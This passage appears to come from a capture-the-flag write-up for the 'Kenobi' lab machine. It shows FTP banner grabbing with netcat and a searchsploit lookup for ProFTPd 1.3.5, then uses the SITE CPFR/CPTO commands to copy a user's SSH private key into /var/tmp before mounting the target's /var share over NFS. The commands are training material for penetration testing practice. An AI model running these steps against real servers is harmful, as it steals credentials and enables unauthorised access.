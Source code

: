 <img src="images/03.Kenobi/08.png" height="700">

We saw there is a ftp service running on port 21. Let's try to grab the banner of ftp to find the ftp version using netcat.

```
nc 10.10.74.95 21
```

<img src="images/03.Kenobi/09.png">

We will use searchsploit to find for any vulnerabilities present in the 1.3.5 version of ProFTPd.

```
searchsploit proftpd 1.3.5
```

While looking for the vulnerabilities for the proftpd version 1.3.5, we found that there is a vulnerability that exploits SITE CPFR/CPTO commands.

<img src="images/03.Kenobi/10.png">

## Exploitation

Using this we can copy files in the target. So, we will copy the id_rsa file to the /var directory and then mount the /var directory to our machine.

Let's connect to ftp and copy the files.

```
nc 10.10.74.95 21
```

```
SITE CPFR /home/kenobi/.ssh/id_rsa
```

```
SITE CPTO /var/tmp/id_rsa
```

<img src="images/03.Kenobi/11-1.png">

<img src="images/03.Kenobi/11.png" height="300">

Now we will mount the /var directory to our machine.

```
mkdir /mnt/kenobi
```

```
mount 10.10.74.95:/var /mnt/kenobi
```

```
cd /mnt/kenobi
```
